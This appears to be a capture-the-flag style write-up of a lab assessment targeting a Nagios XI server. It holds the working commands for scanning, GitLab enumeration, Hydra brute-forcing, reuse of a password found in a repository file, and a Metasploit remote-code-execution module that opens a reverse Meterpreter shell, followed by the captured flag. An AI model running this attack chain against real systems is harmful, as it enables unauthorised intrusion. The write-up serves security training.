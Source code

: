 # Attacking Common Applications - Skills Assessment II

sudo nmap --open -sV 10.129.201.90

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
389/tcp  open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
8180/tcp open  http     nginx
Service Info: Host:  skills2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

http://10.129.201.90/

<li><a href="http://blog.inlanefreight.local/">Employee Blog</a></li>

IP=10.129.201.90
printf "%s\t%s\n\n" "$IP" "gitlab.inlanefreight.local" | sudo tee -a /etc/hosts

http://gitlab.inlanefreight.local:8180/

http://gitlab.inlanefreight.local:8180/users/sign_in

http://gitlab.inlanefreight.local:8180/users/sign_up

root
Username is already taken.

admin
Username is available.

test@test.com
testtest

http://gitlab.inlanefreight.local:8180/explore

http://gitlab.inlanefreight.local:8180/root/virtualhost

http://gitlab.inlanefreight.local:8180/root/virtualhost/-/blob/master/README.md
monitoring.inlanefreight.local

IP=10.129.201.90
printf "%s\t%s\n\n" "$IP" "monitoring.inlanefreight.local" | sudo tee -a /etc/hosts

http://monitoring.inlanefreight.local/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1
http://monitoring.inlanefreight.local/nagiosxi/about/

GET /nagiosxi/login.php?redirect=/index.php%3f&noauth=1 HTTP/1.1
Cookie: nagiosxi=vqnt45h0s9j2ulua41aboagcj4

POST /nagiosxi/login.php HTTP/1.1
nsp=ea786a677beaeb2e60d6f5730d4c848ad66ad746365de3ceffd1abac7d290db9&page=auth&debug=&pageopt=login&redirect=%2Findex.php%3F&username=admin&password=nagiosadmin&loginButton=

sudo msfconsole -q
use auxiliary/scanner/http/nagios_xi_scanner
set RHOSTS 10.129.201.90
set VHOST monitoring.inlanefreight.local

[!] No credentials provided. Attempting to obtain the Nagios XI version from the login page. This will not work for newer versions.
[-] 10.129.201.90:80 - Unable to obtain Nagios XI version from the login page.
[!] Please provide a valid Nagios XI USERNAME and PASSWORD, or a specific VERSION to check

set RPORT 8180
run

[!] No credentials provided. Attempting to obtain the Nagios XI version from the login page. This will not work for newer versions.
[-] 10.129.201.90:8180 - Target is not a Nagios XI application
[!] Please provide a valid Nagios XI USERNAME and PASSWORD, or a specific VERSION to check


hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f monitoring.inlanefreight.local http-get /nagiosxi/login.php

--> Failed (bad parameters for hydra)

sudo hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt monitoring.inlanefreight.local http-post-form "/nagiosxi/login.php:nsp=ea786a677beaeb2e60d6f5730d4c848ad66ad746365de3ceffd1abac7d290db9&page=auth&debug=&pageopt=login&redirect=%2Findex.php%3F&username=admin&password=^PASS^&loginButton=:Invalid username or password"

--> Too long

sudo hydra -l admin -P /opt/useful/SecLists/Passwords/xato-net-10-million-passwords-100.txt monitoring.inlanefreight.local http-post-form "/nagiosxi/login.php:nsp=ea786a677beaeb2e60d6f5730d4c848ad66ad746365de3ceffd1abac7d290db9&page=auth&debug=&pageopt=login&redirect=%2Findex.php%3F&username=admin&password=^PASS^&loginButton=:Invalid username or password"

1 of 1 target completed, 0 valid password found

sudo hydra -l admin -P /opt/useful/SecLists/Passwords/xato-net-10-million-passwords-1000.txt monitoring.inlanefreight.local http-post-form "/nagiosxi/login.php:nsp=ea786a677beaeb2e60d6f5730d4c848ad66ad746365de3ceffd1abac7d290db9&page=auth&debug=&pageopt=login&redirect=%2Findex.php%3F&username=admin&password=^PASS^&loginButton=:Invalid username or password"

1 of 1 target completed, 0 valid password found


http://gitlab.inlanefreight.local:8180/root/nagios-postgresql/-/blob/master/INSTALL

postgres=# CREATE USER nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&^lC';

--> OK

Update Check Problem: Last update check failed.
Latest Available Version:	5.8.6
Installed Version:	5.7.5
Last Update Check:	2024-01-20 10:39:26


sudo msfconsole -q
search 49422
use exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce
set LHOST 10.10.15.174
set RHOSTS 10.129.201.90
set VHOST monitoring.inlanefreight.local
set PASSWORD oilaKglm7M09@CPL&^lC

check

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.5
[*] 10.129.201.90:80 - The target appears to be vulnerable.
[msf](Jobs:0 Agents:0) exploit(

run

[+] The target appears to be vulnerable.
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).

--> Close burp which uses 8080 port

run

(Meterpreter 1)(/usr/local/nagiosxi/html/admin) > shell
cat f5088a862528cbb16b4e253f1809882c_flag.txt
afe377683dce373ec2bf7eaf1e0107eb
